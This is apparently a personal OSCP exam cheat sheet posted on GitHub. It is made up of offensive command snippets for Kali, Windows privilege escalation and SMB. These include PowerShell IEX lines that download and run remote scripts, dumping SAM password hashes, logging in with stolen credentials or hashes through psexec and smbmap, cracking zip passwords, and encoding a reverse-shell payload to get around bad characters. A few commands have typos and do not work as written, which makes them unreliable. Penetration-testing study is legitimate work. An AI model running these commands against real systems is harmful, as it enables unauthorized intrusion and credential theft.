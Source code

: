 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - `tcpdump -i interface icmp`
- Download all files from an ftp service
  - `wget -m --no-passive ftp://anonymous:anonymous@ipaddress`
- Read zip file info
  - `7z l -slt File.zip`
- Crack a password protected zip file
   - 'fcrack -D -p <password List> <zipfile>'
- Useful tools
  - xclip

## Windows

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

- Privesc
  - Test if powershell is working without breaking shell
    - `powershell whoami`
  - Pivot DoS to powershell
    - `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
  - Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
    - `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/script.ps1")`
  - Run cmd as other user
    - `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
  - Decrypy SAM password hashes
    - `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
  - Determine admin accounts
    - DOS: `net localgroup administrators`
  - SAM and SYSTEM file location
    - `Windows/System32/config`
  - Log into remote windows host with stolen creds (SMB required)
    - `psexec.py user@ip`
  - Check panther directory, install logs get put in here and contain creds

- SMB
  - Connect with stolen hash
    - `smbmap -u USER -p HASH -H hostnameIP`

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

## Troubleshooting

- Did an RCE test work but your payload fail?
  - Try changing single quotes to double quotes or vice versa
  - Try escaping special characters
  - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
  - Try removing bad characters
    - ex: `cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`
      - `powsershell-enc base64scriptpaste`
  - If you used msfvenom make sure your archicitecture is correct
  - If you used msfvenom make sure your payload size isn't too large
  - If you used msfvenom try pivoting options
  
